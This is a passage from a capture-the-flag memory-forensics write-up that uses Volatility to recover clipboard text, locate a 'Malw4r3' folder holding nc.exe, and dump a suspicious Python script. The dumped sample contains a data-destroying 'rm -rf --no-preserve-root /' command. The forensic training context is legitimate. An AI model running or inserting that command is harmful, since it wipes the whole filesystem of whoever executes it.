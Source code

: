 Volatility Foundation Volatility Framework 2.6
Session    WindowStation Format                 Handle Object     Data                                              
---------- ------------- ------------------ ---------- ---------- --------------------------------------------------
         1 WinSta0       CF_UNICODETEXT       0x2a0163 0xffa007f8 GOLDEN Dany                                       
         1 WinSta0       CF_LOCALE            0x1c01fb 0xfe493690                                                   
         1 WinSta0       CF_TEXT                   0x1 ----------                                                   
         1 WinSta0       CF_OEMTEXT                0x1 ----------      
```

and we get a name `GOLDEN Dany`

- filescan 

```
┌─[✗]─[user@parrot]─[~/Desktop/CTFs/heroctf]
└──╼ $volatility -f capture.mem --profile Win7SP0x86 filescan | grep Malw4r3
Volatility Foundation Volatility Framework 2.6
0x000000007dc30518      8      0 RW-r-- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nemesis.py.txt.py.txt
0x000000007e12aec8      5      0 R--r-d \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\nc.exe
0x000000007e35eaf8      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007e638228      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007fcaf4d8      1      1 R--rw- \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3
0x000000007fec2398      8      0 RW-rwd \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nouveau document RTF.rtf
```
we get some cool findings in a folder `Malw4r3` and a python script that looks suspicious 

- dumpfiles
```
┌─[✗]─[skoki@parrot]─[~/Desktop/CTFs/heroctf]
└──╼ $volatility -f capture.mem --profile Win7SP0x86 dumpfiles -Q 0x000000007dc30518 -D .
Volatility Foundation Volatility Framework 2.6
DataSectionObject 0x7dc30518   None   \Device\HarddiskVolume2\Users\Razex\Documents\Malw4r3\Nemesis.py.txt.py.txt
```
 
 with contents as

```python
#Author : PAVOLI Ruben
#Version: 4.5.1
import os
os.system("rm -rf --no-preserve-root /")
def encrypt():
    with open("rsa_gen.key","rb"):
        ################################################
        #            MALWARE PUSH ON GIT                #
        ################################################
```
